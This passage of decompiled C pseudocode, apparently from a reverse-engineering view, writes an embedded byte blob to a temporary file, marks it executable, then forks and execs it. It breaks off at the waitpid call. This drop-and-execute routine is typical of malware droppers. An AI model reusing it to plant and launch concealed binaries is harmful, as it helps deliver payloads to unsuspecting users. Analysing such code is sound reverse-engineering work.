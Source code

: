 ```c
      }
    }
  }
LABEL_15:
  v23 = 88;
  *(__m128i *)templatea = _mm_load_si128((const __m128i *)&xmmword_3270);
  v12 = mkstemp(templatea);
  if ( v12 < 0 )
  {
    perror("mkstemp");
    return 4LL;
  }
  v13 = qword_8EA0;
  for ( i = 0LL; qword_8EA0 > i; v13 = qword_8EA0 )
  {
    v15 = write(v12, &byte_5020[i], v13 - i);
    if ( v15 >= 0 )
    {
      i += v15;
    }
    else if ( *__errno_location() != 4 )
    {
      perror("write");
      close(v12);
      unlink(templatea);
      return 5LL;
    }
  }
  if ( fsync(v12) == -1 )
    perror("fsync");
  if ( close(v12) == -1 )
  {
    perror("close");
    unlink(templatea);
    result = 6LL;
  }
  else if ( chmod(templatea, 0x1C0u) == -1 )
  {
    perror("chmod");
    unlink(templatea);
    result = 7LL;
  }
  else
  {
    v17 = fork();
    if ( v17 < 0 )
    {
      perror("fork");
      unlink(templatea);
      result = 8LL;
    }
    else
    {
      if ( !v17 )
      {
        argv[0] = templatea;
        argv[1] = 0LL;
        execv(templatea, argv);
        perror("execv");
        _exit(127);
      }
      stat_loc = 0;
      if ( waitpid(v17, &stat_loc, 0) == -1 )
```